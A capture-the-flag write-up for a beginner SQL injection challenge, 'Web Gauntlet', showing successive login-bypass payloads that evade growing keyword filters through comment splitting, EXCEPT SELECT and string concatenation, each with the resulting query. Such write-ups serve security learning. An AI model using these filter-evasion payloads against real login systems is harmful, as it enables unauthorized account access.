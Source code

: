 # Web Gauntlet
**A beginner SQLI Web Exploitation challenge.**

- First, we click the website and the filter. If we try to log into the website, we will get "Invalid username/password". We can check the filter and see that the word "or" is being filtered through the server, so we can not include it in the username or password. 

- There are many ways to perform an SQLI, so we will try to do it without the classic username: "admin" password: 'OR '1'='1 statement. We can use the comment syntax to comment out the rest of the query after the username identification. A way to do that is the following:

```
Username: admin' --
Password: random_pass
```

We get the following statement: 
```
SELECT * FROM users WHERE username='admin' --' AND password='random_pass'
```

- We can see now that the SQLI is successful. But the filter.php has been updated to filter out more words. Now we can not use any of these words "or and like = --". So our previous SQLI is not accepted. Though, we can still find a way to comment out the rest of the query after the username identification. A way to do that is the following:

```
Username: admin' '/*'
Password: */ except select '1','1
``` 

We get the following statement: 
```
SELECT * FROM users WHERE username='admin' /*' AND password='*/ except select '1','1' 
```
(The password identification is being commented out and the remaining tick character is being joined with an except select statement, where you should make sure that the number of '1' matches the number of columns in the users table)

- The SQLI is successful. This time the filter.php file is updated and we can not use any of these words "or and = like > < --"(Note that we cannot use the space character as we can verify this from the raw hex response of the filter.php file, you can use hexdump or xxd on the login.php file to see that). We can try commenting out the password identification and pair the remaining tick character with a simple concatenation. A way to do that is the following:

```
Username: admin'/*
Password: */||'
``` 

We get the following statement: 
```
SELECT * FROM users WHERE username='admin'/*' AND password='*/||''
```

- The SQLI is successful. The filter.php has been updated to filter out the words: "or and = like > < -- admin". Now, we can simply create the same attack as previously, but making the word "admin" as a concatenation of 2 words. A way to do that is the following:

```
Username: ad'||'min'/*
Password: */||'
``` 

We get the following statement: 
```
SELECT * FROM users WHERE username='ad'||'min'/*' AND password='*/||''
```

- The SQLI is successful. The filter.php has been updated to filter out the words: "or and = like > < -- admin union". Now, we can simply create the same attack as previously, because the new filter restrictions do not bother us.

```
Username: ad'||'min'/*
Password: */||'
```

- The SQLI is successful, and finally you should be able to see the flag in the filter.php file. 


